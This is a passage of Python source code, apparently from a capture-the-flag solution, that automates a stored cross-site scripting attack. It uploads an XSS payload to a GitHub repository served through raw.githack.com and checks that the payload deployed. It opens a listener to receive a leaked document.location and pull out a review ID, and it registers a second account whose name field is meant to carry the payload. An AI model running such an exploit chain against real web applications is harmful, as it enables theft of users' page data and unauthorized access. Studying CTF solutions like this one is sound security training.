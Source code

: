 ```python
    #call('git remote add origin https://github.com/' + repo_complete_name + '.git', shell=True)
    call('git remote add origin git@github.com:' + repo_complete_name + '.git', shell=True)
    call('git add ' + file_name, shell=True)
    call('git commit -m ' + file_name, shell=True)
    call('git push -q origin master', shell=True)
    
    # Cache file in githack
    full_file_path = repo_complete_name + '/master/' + file_name
    git_hack_url = 'http://raw.githack.com/' + full_file_path
    git_hack = requests.get(git_hack_url)
    
    if git_hack.text == XSS_PAYLOAD:
        print('[*] XSS payload uploaded to ' + git_hack_url)
    else:
        print('[X] Error while deploying XSS payload')
        raise Exception
        
    return full_file_path
```

### Open port 80 to leak review URL (Multithreading)

```python
def run_leak_server():
    global LOCAL_PORT, review_id
    
    l = listen(LOCAL_PORT)
    l.wait_for_connection()
    
    get_request = l.recvuntil('HTTP/1.1')
    leaked = re.findall('leak=(.*?) HTTP/1.1', str(get_request))[0]
    print('[*] Review document.location leaked: ' + leaked)
    l.recvuntil('\r\n\r\n')
    l.send('HTTP/1.1 200 OK\r\nConnection: Close\r\nContent-Type: plain/text\r\nContent-Length: 0\r\n\r\n')
    
    review_id = re.findall('review%2F(.*?)$', leaked)[0]
    print('[*] Review id: ' + review_id)
    
    l.close()
    
    return True
```

### Create a second user

```python
def create_second_acc():
    global session_second_acc, csrf_second, CTF_URL
    
    response_get_csrf = session_second_acc.get(CTF_URL)
    csrf_second = response_get_csrf.cookies['_csrf_token']
    sec_username = random_name()
    
    sec_acc_response = session_second_acc.post(CTF_URL + '/register', data={"password" : "secretpassword", \
                "password-confirmation" : "secretpassword", \
                "name" : "HERE_WILL_BE_MY_PAYLOAD", "_csrf_token" : csrf_second, \
                "email":random_name()+"@gimmemyflag.com" ,"username": sec_username}, verify=False)
    
    if sec_acc_response.status_code == 200:
        print('[*] Second user created: ' + sec_username)
    else:
        raise Exception()
```
